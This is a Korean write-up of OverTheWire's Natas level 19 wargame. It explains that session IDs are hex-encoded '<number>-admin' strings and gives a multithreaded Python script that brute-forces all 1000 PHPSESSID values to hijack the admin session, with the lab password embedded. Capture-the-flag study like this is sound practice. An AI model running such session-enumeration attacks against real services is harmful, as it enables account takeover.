 ```yaml
---
title: Natas Level 19 풀이
date: 2024-05-02 21:56:00 +09:00
categories: [wargame, natas]
tags: [natas, wargame]
image:
  path: assets/img/0502/natas19a.png
---
```

<br>
## 로그인
---
> Username: natas19
> <br> URL: <http://natas19.natas.labs.overthewire.org>


<br>
이번에도 admin으로 로그인해야 하는 문제이다.<br>
소스코드는 지난 단계와 비슷하지만, 세션아이디가 순차적이지 않다고 한다.<br>

<br>
<br>
## 풀이
---
username 에는 admin으로, password는 아무거나 입력하면서 세션아이디가 어떻게 나오는지 확인해보았는데,<br>


항상 세션아이디 끝자리는 <b>2d61646d696e</b>로 출력된다.<br>


어떤 규칙으로 인코딩한 게 분명하다.<br>
몇 가지 확인해보았더니 <b>"000-admin"</b> 텍스트를 16진수값으로 변환한 ascii코드였다.<br>
<b>000</b> 자리에는 0부터 999까지의 랜덤숫자로 세션아이디를 생성시키는 듯 하다.<br>


<br>![Desktop View](assets/img/0502/natas19b.png){: w="700" h="400" }<br>


이를 바탕으로 "0-admin"부터 "999-admin"까지 ascii-hex로 변환한 값을 세션아이디로 넣어보는 자동화 프로그램을 쓰면 된다.<br>
<br>
<br>
<br>
## 자동화 프로그램
---
```python
import requests
from concurrent.futures import ThreadPoolExecutor
 
def ascii_to_hex(text):
    return ''.join(f"{ord(c):x}" for c in text)
 
def check_session(prefix):
    url = 'http://natas19.natas.labs.overthewire.org/'
    auth = ('natas19', '8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s')
    suffix = '-admin'
    session_text = f"{prefix}{suffix}"
    session_id = ascii_to_hex(session_text)
    cookies = {'PHPSESSID': session_id}
    response = requests.get(url, auth=auth, cookies=cookies)
    if response.status_code == 200:
        print(
            f"Testing session ID: {session_id} ({session_text}), Status: {response.status_code}")
    if "You are an admin" in response.text:
        print(f"Admin session ID found: {session_id} ({session_text})")
        return session_id
    return None
 
def find_session_ids():
    with ThreadPoolExecutor(max_workers=50) as executor:
        # 0부터 999까지의 prefix를 검사
        prefixes = range(1000)
        for result in executor.map(check_session, prefixes):
            if result:
                break
 
find_session_ids()
```


여태까지는 하나씩 넣어서 썼는데, 너무 느려서 스크립트를 병렬로 처리하는 법을 배웠다<i>(from 지피티...)</i><br>


<br>
ThreadPoolExecutor를 사용하여 0부터 999까지에 대해 check_session 함수를 병렬로 실행한다. 각 숫자들은 "-admin"을 붙여 세션ID를 생성하고 웹 서버에 요청을 보내서 "You are an admin"이 포함되어 있는지 검사한다. 그냥 하나씩 보내는 것보다 훨씬 빨리 확인할 수 있다.<br>


<br>
결과:<br>
<br>![Desktop View](assets/img/0502/natas19c.png){: w="700" h="400" }<br>


<br>
이렇게 찾은 세션 아이디를 보내면 natas20 패스워드가 나온다.<br>
<br>![Desktop View](assets/img/0502/natas19d.png){: w="700" h="400" }<br>